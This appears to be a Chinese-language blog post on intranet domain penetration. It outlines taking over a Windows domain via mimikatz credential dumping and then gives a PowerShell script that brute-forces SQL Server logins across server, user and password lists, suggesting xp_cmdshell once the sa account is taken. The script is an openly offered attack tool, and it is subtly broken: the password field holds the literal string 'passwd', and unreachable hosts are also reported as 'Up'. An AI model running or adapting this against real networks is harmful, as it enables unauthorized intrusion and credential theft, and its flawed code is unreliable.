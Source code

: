```yaml
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---
```


## 0x00内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 通过弱口令破解sqlserver登录口令。
由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个powershell脚本能够对这个列表进行暴力破解。(windows下powershell好处多多，集成了各种windows功能，并且感觉powershell比bashshell还要强大好用)

破解脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
	$pos = $server.Indexof(".")
	$serverName = $server.Substring(0,$pos)
	if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
		Write-Host "[+] Up $server"
		$serverList += $server
	} else {
		Write-Host "[+] Up $server"
	}
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
	Foreach ($passwd in $passwdFile) {
		Foreach ($server in $serverList) {
			$con = New-Object System.Data.SqlClient.SqlConnection
			$con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
			Try {
				$con.Open()
				Write-Host "[+] Success: $server; $user; $passwd."
				$result += "$server; $user; $passwd"
			}
			Catch {
				Write-Host "[+] Failed: $server; $user; $passwd."
			}
		}
	}
}

$result | out-file "result.txt"
{% endhighlight %}

脚本中server.txt为sqlserver服务器列表，user.txt为用户名列表，passwd为password列表。执行结果保存在脚本目录下的result.txt文件中。

[1]: http://drops.wooyun.org/pentesting/2125